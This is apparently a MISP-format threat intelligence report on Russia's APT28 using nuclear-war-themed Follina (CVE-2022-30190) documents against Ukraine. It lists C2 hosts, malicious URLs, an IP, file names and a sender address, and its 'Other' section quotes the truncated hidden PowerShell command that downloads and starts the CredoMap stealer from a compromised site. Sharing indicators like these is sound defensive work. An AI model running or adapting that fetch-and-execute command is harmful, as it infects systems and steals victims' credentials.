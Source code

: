 # Threat Report: 2022-06-21: Russia’s APT28 uses fear of nuclear war to spread Follina docs in Ukraine


## Key Intelligence
* Date: 2022-06-21
* Threat Level: 1 (High)
* Tags: misp-galaxy:threat-actor="Sofacy", misp-galaxy:target-information="Ukraine", tlp:white

---

## Indicators of Compromise (IOCs)
### External analysis
* link: https://blog.malwarebytes.com/threat-intelligence/2022/06/russias-apt28-uses-fear-of-nuclear-war-to-spread-follina-docs-in-ukraine/
* vulnerability: CVE-2022-30190 — Follina
* link: https://cert.gov.ua/article/341128

### Network activity
* hostname: www.specialityllc.com — C2
* url: http://kitten-268.frge.io/article.html — Remote template (Follina)
* url: http://kompartpomiar.pl/grafika/SQLite.Interop.dll
* url: http://kompartpomiar.pl/grafika/docx.exe
* ip-dst: 162.241.216.236
* hostname: kitten-268.frge.io
* domain: frge.io — requires additional monitoring
* domain: kompartpomiar.pl — probably a compromised web resource

### Other
* comment: %USERPROFILE%\docx.exe
%USERPROFILE%\SQLite.Interop.dll
cmd.exe /k powershell -NonInteractive -WindowStyle Hidden -NoProfile -command '& {iwr http://kompartpomiar.pl/grafika/SQLite.Interop.dll -OutFile "%USERPROFILE%\SQLite.Interop.dll";iwr http://kompartpomiar.pl/grafika/docx.exe -OutFile "%USERPROFILE%\docx.exe";Start-Process "%USERPROFILE%\

### Payload delivery
* md5: <md5> — Nuclear Terrorism A Very Real Threat.rtf
* sha256: <sha256> — Nuclear Terrorism A Very Real Threat.rtf
* md5: <md5> — article.html
* sha256: <sha256> — article.html
* md5: <md5> — SQLite.Interop.dll (Legitimate DLL)
* sha256: <sha256> — SQLite.Interop.dll (Legitimate DLL)
* md5: <md5> — docx.exe (CredoMap)
* sha256: <sha256> — docx.exe (CredoMap)
* email-src: seo@specialityllc.com

## Objects
### file — File object describing a file with meta-information
* [Payload delivery] sha256: <sha256>
* [Payload delivery] filename: Nuclear Terrorism A Very Real Threat.rtf

### file — File object describing a file with meta-information
* [Payload delivery] sha256: <sha256>
* [Payload delivery] filename: http://kompartpomiar[.]pl/grafika/docx.exe
